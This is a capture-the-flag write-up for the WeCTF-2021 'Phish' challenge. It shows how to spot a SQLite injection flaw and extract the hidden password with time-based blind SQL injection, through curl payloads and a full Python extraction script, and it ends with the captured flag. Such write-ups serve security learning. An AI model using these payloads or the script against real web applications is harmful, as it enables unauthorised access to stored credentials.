 # WeCTF-2021

<h1>Phish</h1>

From the start testing - ```curl http://phish.sf.ctf.so/add --data"username=test&password=test2'``` will returns an SQL error which means it's vulnerible to SQLi.

Testing ```curl http://phish.sf.ctf.so/add --data "username=' UNION SELECT 1,2 #&password=test2"``` returns ```unrecognized token: "#"```

The database is not MySQL so let's run an SQL query to try to find what DB it is.

With MySQL the page should load in 5 seconds.. `' UNION SELECT 1,IF(LENGTH(password))>0,SLEEP(5),'true') FROM user` -- Instead it returns `no such function: IF`

This error is unique to SQLite. So now we know we need to convert to a SQLite query.

This query should will load in 4-5 seconds if password length is > 0. `curl http://phish.sf.ctf.so/add --data "username=shou&password=', '') UNION SELECT 1,CASE WHEN LENGTH(password)>0 THEN randomblob(500000000) END FROM user WHERE username = 'shou'--"`

It's a successful query and loads in  ~4 seconds. So I wrote a program (included below) to extract all 64 characters of the flag. 

```
import requests

FLAG = []
INJECTION_STRING = "', '') UNION SELECT 1,CASE WHEN unicode(substr(password, {}, {})){}{} THEN randomblob(500000000) END FROM user WHERE username = 'shou'--"

def guess_exact(offset, starting_ascii):
    global FLAG
    global INJECTION_STRING
    for current_ascii in range(starting_ascii-10, starting_ascii):
        print(f'Testing {chr(current_ascii)}')
        POST_DATA = {"password": INJECTION_STRING.format(offset,offset,'=',current_ascii), "username": "shou"}
        load_time = requests.post("http://phish.sf.ctf.so/add", data=POST_DATA).elapsed.total_seconds()
        print(f'Load time: {load_time}')
        if(load_time > 3):
            FLAG.insert(offset, chr(current_ascii))
            break
            
def guess_letter_range(offset):
        global INJECTION_STRING
        for current_ascii in range(30,131):
            if current_ascii % 10 == 0:
                POST_DATA = {"password": INJECTION_STRING.format(offset,offset,'<',current_ascii), "username": "shou"}
                print(f'Testing letters between {chr(current_ascii-10)}-{chr(current_ascii)}')
                load_time = requests.post("http://phish.sf.ctf.so/add", data=POST_DATA).elapsed.total_seconds()
                print(f'Load time: {load_time}')
                if load_time > 3:
                    print(f'Searching exact letter between {chr(current_ascii-10)}-{chr(current_ascii)}')
                    guess_exact(offset, current_ascii)
                    break

for offset in range(1, 64): # 64 is the size of the flag - based from manual testing 
    guess_letter_range(offset)
    print("".join(FLAG))
```

FLAG: we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m4P}
